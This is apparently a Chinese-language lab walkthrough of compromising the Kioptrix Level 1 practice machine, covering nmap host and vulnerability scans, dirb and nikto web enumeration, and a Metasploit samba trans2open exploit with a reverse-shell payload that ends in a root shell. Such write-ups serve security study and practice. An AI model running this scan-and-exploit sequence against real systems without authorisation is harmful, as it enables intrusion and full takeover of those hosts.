



# 一、信息收集

1. 主机发现，如下，192.168.0.107是kali的ip，那么192.168.0.108就是靶机的ip了
   
   ```shell
   nmap -sn 192.168.0.1/24
   ```

2. 扫描端口，如下：系统Red-Hat，22端口OpenSSH版本2.9p2，80端口443端口Apache httpd版本1.3.20、mod_ssl版本2.8.4、OpenSSL版本0.9.6b，139端口netbios-ssn Samba smbd、1024端口rpc，其中看扫描结果samba应该是有漏洞的
   
   ```shell
   nmap -sV -sC -T4 192.168.0.108
   ```

3. nmap扫描一下主机漏洞情况，如下，有CVE-2011-1002、CVE-2014-0224、CVE-2015-4000、CVE-2014-3566、CVE-2009-3103
   
   ```shell
   nmap --script=vuln 192.168.0.108
   ```

4. 使用kali自带爆破工具dir扫描一下web目录
   
   ```shell
   dirb http://192.168.0.108
   ```

5. manual目录下存在目录遍历漏洞
   
   - usage目录下是Webalizer，一个网站服务器日志分析程序，发现一个域名kioptrix.level1和test.php文件，test文件需要通过域名才可以访问
   
   - 最后再使用nikto扫描一下web漏洞，漏洞还挺多
     

# 二、getshell

1. 使用msf搜索上面发现的漏洞，发现CVE-2014-0224、CVE-2015-4000、CVE-2014-3566、samba都可以搜到，前面三个都是openssl的漏洞
    

2. 使用exploit/linux/samba/trans2open进行攻击
   
   ```shell
   use exploit/linux/samba/trans2open
   set payload linux/x86/shell_reverse_tcp
   set rhost 192.168.0.108
   exploit
   ```

3. 如下，成功拿下root权限shell
    
